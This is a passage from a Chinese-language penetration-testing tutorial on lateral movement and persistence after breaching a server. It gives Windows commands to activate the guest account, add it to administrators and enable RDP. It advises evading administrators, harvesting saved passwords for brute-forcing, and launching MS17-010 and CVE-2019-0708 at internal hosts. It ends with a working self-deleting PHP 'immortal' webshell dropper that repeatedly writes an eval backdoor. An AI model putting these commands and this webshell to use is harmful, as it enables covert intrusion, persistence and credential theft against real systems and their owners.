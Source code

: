 ### 2.6 内网横向渗透

当我们在获取了外网服务器的权限，进入该系统后，我们要想尽办法从该服务器上查找到我们想要的信息。

对于windows主机，我们应该多去翻翻目录，或许能有很多意想不到的结果。很多人习惯把账号密码等容易忘的东西存放在备忘录中，或者是桌面上。我们还可以查找数据库的连接文件，查看数据库的连接账号密码等敏感信息。当我们获得了windows主机的账号密码，或者是自己创建了新用户后，我们为了不被网站管理员发现和不破坏服务器。我们尽量不要使用远程桌面。因为使用远程桌面动静比较大，如果此时服务器管理员也在登录，而你此时通过远程桌面登录的话，会将管理员挤掉，而你也将很快的被管理员踢掉。对于实在是要远程桌面登录的情况的话，我们尽量不要新建一个用户进行登录。我们可以激活 guest 用户，然后将其加入 administrators 组里面，用 guest 用户身份登录。在RDP远程登录后，我们可以查看其他用户桌面上和其他目录有哪些软件，我们要找的目标有以下。

- FTP相关的软件
- 数据库相关的软件
- 打开浏览器，查看历史记录，查看某些网站是否保存有用户密码。利用工具查看浏览器保存的密码

从该主机上找到的账号密码，我们可以做一个字典，在对内网其他机器进行爆破的时候，很有可能是同密码。

```bash

net user  guest  /active:yes                      #激活guest用户
net localgroup  administrators  guest  /add       #将guest用户添加到
net user guest    密码                            #更改guest用户密码
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f                          #开启3389端口

```



对于Linux主机，我们可以查看开放的端口号，开放的服务，与其建立连接的内网主机。查看目录，查找网站数据库连接密码。总之，就是尽可能的多查找一些账号密码，这对于内网的账号爆破非常有用。

在搭建了隧道可以通内网后，我们首先就需要对内网进行资产发现了。但是对于内网存活网段的判断是一个大问题。内网很有可能同时存在 10.0.0.0/8、172.16.0.0/16、192.168.0.0/24 网段。这就需要我们用扫描器对其进行探测了。通过代理进行内网扫描不建议使用nmap。如果是在本地主机通过代理扫描，可以图形化界面的话，可以使用 RouterScan 、御剑高速TCP全端口扫描器、IIS_Scanner。但是注意线程调低一点，不然代理很容易崩了。如果使用命令行扫描器的话，可以使用S扫描器。在扫描了内网资产和端口开放情况后，对于445端口，就可以打一波MS17_010。但是注意通过代理打445，和之前的是不一样的。传送门——> 内网渗透之MS17-010 。对于3389端口，可以打一波CVE-2019-0708，传送门——> CVE-2019-0708 远程桌面漏洞复现 。对于1433/3306/6379等端口，可以尝试爆破，利用之前收集到的账号密码成功率更高哦。

### 2.7 权限维持

在拿到目标主机的权限后，很有可能当时我们并不能获取到想要的东西，需要进行长期的潜伏，特别是在内网渗透中，需要进行长期的信息收集。这时，权限维持就很重要了。我们需要维持住获得的现有权限。

#### 2.7.1 Web后门

1：隐藏后门文件(将文件设置为隐藏)

2：不死马，该脚本每5秒向服务器创建test.php，并写入一句话免杀木马。结合attrib命令隐藏文件更好地建立后门。

```php

<?php
    set_time_limit(0);//程序执行时间
    ignore_user_abort(1);//关掉终端后脚本仍然运行
    unlink(__FILE__);//文件完整名
    while(1){
        file_put_contents('test.php','<?php $a=array($_REQUEST["x"]=>"3");
        $b=array_keys($a)[0];
        eval($b);?>');
        sleep(5);
    }
?>
  
```

